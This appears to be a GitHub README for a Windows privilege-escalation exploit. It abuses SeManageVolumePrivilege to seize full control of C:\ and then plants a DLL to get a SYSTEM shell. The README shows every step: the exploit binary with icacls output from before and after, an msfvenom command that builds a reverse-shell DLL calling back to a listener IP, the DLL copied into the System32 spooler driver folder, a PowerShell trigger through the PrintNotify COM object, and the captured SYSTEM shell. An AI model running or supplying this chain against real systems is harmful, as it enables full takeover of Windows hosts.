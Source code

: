 # SeManageVolumeAbuse

> Get full control over C:\ when the user has SeManageVolumePrivilege (allowing to read/write any files). One possible way to get a shell from here is to write a custom dll to C:\Windows\System32\wbem\tzres.dll & call systeminfo to trigger it.

The original abuse method of calling `systeminfo` doesn't appear to work any longer, so instead I borrowed the POC method from https://github.com/CsEnox/SeManageVolumeExploit where I built and used the binary from the current repo to give me full control over C:\ however to trigger my malicious DLL I used the following:

## Copy the built `SeManageVolumeAbuse.exe` to the target and invoke it to provide full access to `C:\`

```powershell
# Before
icacls c:\                                                                                                                                
c:\ NT AUTHORITY\SYSTEM:(OI)(CI)(F)                                                                                                       
    BUILTIN\Administrators:(OI)(CI)(F)                               
    BUILTIN\Users:(OI)(CI)(RX)                                                                                                            
    BUILTIN\Users:(CI)(AD)                                           
    BUILTIN\Users:(CI)(IO)(WD)                                                                                                            
    CREATOR OWNER:(OI)(CI)(IO)(F)

# Invoke Exploit
.\SeManageVolumeAbuse.exe                                                                                                                 
.\SeManageVolumeAbuse.exe         
Success! Permissions changed.

# After
icacls c:\
c:\ NT AUTHORITY\SYSTEM:(OI)(CI)(F)
    BUILTIN\Users:(OI)(CI)(F)
    BUILTIN\Users:(OI)(CI)(RX)
    BUILTIN\Users:(CI)(AD)
    BUILTIN\Users:(CI)(IO)(WD)
    CREATOR OWNER:(OI)(CI)(IO)(F)

```

## Generate malicious DLL

```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.163 LPORT=443 -f dll -o Printconfig.dll
```

## Transfer the DLL to the target and then Copy it to the system folder

```powershell
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\Printconfig.dll
```

## Start listener

```bash
sudo ncat -nlvp 443
```
## Invoke the PrintNotify as follows:

```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```
## Shell achieved

```bash
$ sudo ncat -nlvp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
Ncat: Connection from 192.168.227.187.
Ncat: Connection from 192.168.227.187:49947.
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```

Credits:
- https://twitter.com/0gtweet/status/1303427935647531018
- https://github.com/gtworek/PSBits/blob/master/Misc/FSCTL_SD_GLOBAL_CHANGE.c
- https://github.com/CsEnox/SeManageVolumeExploit
